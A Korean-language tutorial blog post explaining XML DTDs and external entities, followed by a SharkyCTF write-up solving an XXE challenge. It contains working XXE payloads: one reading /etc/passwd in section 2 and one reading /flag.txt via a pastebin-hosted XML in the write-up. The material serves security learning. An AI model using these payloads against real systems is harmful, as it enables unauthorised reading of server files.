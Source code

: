 ```yaml
---
title : "XXE"
excerpt : "XXE"
toc : true
toc_sticky : true
categories :
  - Web
  - XXE
tags :
  - XXE
---
```


## 1. XML
```
<?xml version="1.0" encoding="UTF-8" ?>     XML 선언문
<foods> XML root 요소 -> 가장 바깥 요소로 단일계층이어야 함.
    <food> 요소
        <name>바나나</name>   # food 요소 내용, name 요소 값은 바나나
        <color>노랑</color>   # food 요소 내용, color 요소 값은 노랑
    </food> 
    <food> 
        <name>사과</name> 
        <color>빨강</color> 
    </food> 
</foods>
```
### 1-1. DTD(Document Type Definition)
DTD(Document Type Definition)는 XML의 구조를 정의하는데 사용하는 것으로 XML의 구조를 정의한 DTD와 XML 문서를 연결할 시에는 문서형 선언(DOCTYPE 선언)를 사용함.   
내부 또는 외부에 기술된 DTD와 XML 문서를 연결할 수 있다.  
**DTD는 엔티티를 정의할 수 있으며**, 빠른 개발을 위한 내부 DTD를 사용할 수 있음.  
괄호([]) 안에는 내부 서브셋(subset)이라 불리는 추가로 선언한 엔티티(entity)의 리스트가 존재함.  
```
#내부
<!DOCTYPE 루트요소[ 
    <!-- 내부 서브셋 작성 --> 
]>
```
```
#외부
<!DOCTYPE 루트요소 SYSTEM "URI"[ 
    <!-- 내부 서브셋 작성 -->
]>
```
### 1-2. Entities
XML에서 미리 예약된 엔티티는 다음과 같음.  
```
1. &lt;
2. &gt;
3. &amp;
4. &quot;
5. &apos;
```  
위와 같은 다섯 개의 엔티티를 제외한 모든 엔티티는 반드시 사용하기 전에 DTD에서 선언해야 함.  
DTD에서 엔티티는 XML 문서나 DTD 내부에 선언할 수도 있으며, 파일 외부에 선언할 수도 있음.  
```
문법
#내부
<!ENTITY 엔티티이름 "엔티티값">
``` 
```
DTD 예제
<!ENTITY css "Cascading Style Sheets">
```
```
XML 예제
<lecture>&css;</lecture> // 출력 결과 -> <lecture>Cascading Style Sheets<lecture>
```  
외부에 파일 형태로 선언되는 외부 엔티티는 다른 DTD 문서에서 재사용할 수 있음.  
문서 외부에 존재하는 외부 엔티티는 다음과 같이 SYSTEM 키워드를 사용하여 선언할 수 있음.  
```
#외부
<!ENTITY 엔티티이름 SYSTEM "URI또는URL">
```
```
DTD 예제
<!ENTITY html SYSTEM "http://codingsam.com/xml/html.dtd">
```
```
XML 예제
<lecture>&html;</lecture> // 출력 결과 -> <lecture>HyperText Markup Language<lecture>
```
선언된 엔티티는 XML 문서에서 AND기호(&) + 엔티티 이름 + 세미콜론(;)의 형식으로 사용함.   
출처: <a href="http://tcpschool.com/xml/xml_dtd_entityDeclaration" target="_blank">http://tcpschool.com/xml/xml_dtd_entityDeclaration</a> 

## 2. XXE (XML External Entity)
위의 내용을 토대로 예시를 보면 
```
<?xml version=”1.0" encoding=”UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```  
SYSTEM을 통해 외부 파일인 서버에 있는 /etc/passwd파일을 읽어오고 xxe엔터티 값을 출력해주면 /etc/passwd 파일 내용이 출력이 됨. 

응용 기법들은 여기 : <a href="https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9" target="_blank">https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9</a> 

## 3. Sharkyctf XXExternalXX 문제 풀이 
<img src="/assets/images/sharkyctf-XXExternalXX.jpg">
문제에서 news section으로 가라해서 갔더니 data.xml 파일을 불러와서 출력된 화면이 나옴.  
data.xml 파일을 확인해보았음. 확인하는 이유는 요소의 이름을 알아야 하기 때문임.  
<img src="/assets/images/sharkyctf-XXExternalXX-xml.jpg">
문제 제목에서부터 XXE를 하라했고 flag.txt를 서버의 root에 숨겨놓았다고 했기 때문에 flag.txt 파일을 읽어와야 함. 따라서 코드를 짜면  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY flag SYSTEM "file:///flag.txt"> ]>
<root>
    <data> The flag is &flag;</data>
</root>
```
ubuntu로 서버에 flag.xml 파일을 올리고 해보려 했으나 504 Gateway Out 오류가 뜨면서 안됨.    
그래서 대신 <a href="https://pastebin.com/" target="_blank">https://pastebin.com/</a>이라는 사이트가 있어서 이를 이용함.      
![](/assets/images/sharkyctf-XXExternalXX-injection.jpg){: .align-center} 
create를 하면 임의의 사이트가 생성이 되고 raw를 통해 xml파일을 볼 수 있음.     
![](/assets/images/sharkyctf-XXExternalXX-parsebin.jpg){: .align-center}    
이 주소를 xml의 값으로 전달해주면 flag가 출력됨.  
![](/assets/images/sharkyctf-XXExternalXX-flag.jpg){: .align-center} 
